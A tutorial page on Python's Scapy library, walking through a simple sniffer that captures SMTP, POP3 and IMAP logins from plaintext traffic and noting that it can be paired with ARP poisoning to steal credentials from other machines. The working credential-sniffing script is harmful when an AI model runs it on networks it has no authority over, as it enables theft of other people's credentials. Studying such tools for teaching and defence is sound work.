

# **Stealing Email Credentials**

After learning about Python sniffing, we will explore Scapy's sniffing and packet dissection interface. We will create a basic sniffer to obtain SMTP, POP3, and IMAP credentials. When combined with an ARP poisoning MITM attack, this sniffer can be used to steal credentials from other machines on the network. It can also be used to capture all traffic or any other protocol.

### `sniff(filter="", iface="any", prn=function, count=N)`

`sniff()` function in Scapy can capture and analyze network traffic with arguments such as `filter`, `iface`, `prn`, and `count`.

- `filter` specifies the type of traffic to capture.
- `iface` specifies the network interface to use.
- `prn` is the function for analyzing each packet.
- `count` specifies the maximum number of packets to capture.

For example, to capture all HTTP traffic on the `eth0` interface:

```python
sniff(filter="tcp port 80", iface="eth0", prn=process_packet)
```

## `mail_sniffer.py`

```python
from scapy.all import sniff

def packet_callback(packet):
    print(packet.show())

def main():
    sniff(prn=packet_callback, count=1)

if __name__ == '__main__':
    main()
```

The code above shows an example of using Scapy's `sniff()` function to capture and analyze network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `count` parameter is set to 1, so the sniffer will stop after capturing a single packet.

When `main()` is called, it invokes `sniff()` and passes `packet_callback()` as the argument for `prn`. This means that `packet_callback()` will be called for every packet captured by the sniffer. In this example, `packet.show()` is called for each packet to display its contents.

## Filters



```python
from scapy.all import sniff, TCP, IP

# the packet callback
def packet_callback(packet):
    if packet[TCP].payload:
        mypacket = str(packet[TCP].payload)
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f"[*] Destination: {packet[IP].dst}")
            print(f"[*] {str(packet[TCP].payload)}")

def main():
    # fire up the sniffer
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',
          prn=packet_callback, store=0)

if __name__ == '__main__':
    main()
```

The code above uses Scapy to create a sniffer that captures SMTP, POP3, and IMAP credentials from network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `filter` parameter is set to capture traffic on common **email ports** **110(POP3)**, **25(SMTP)**, and **143(IMAP)**. When a packet is captured, the `packet_callback()` function checks if it contains the words "user" or "pass". If it does, it prints the destination IP address and the payload of the packet.

To use this code, simply copy and paste it into a Python file and run it.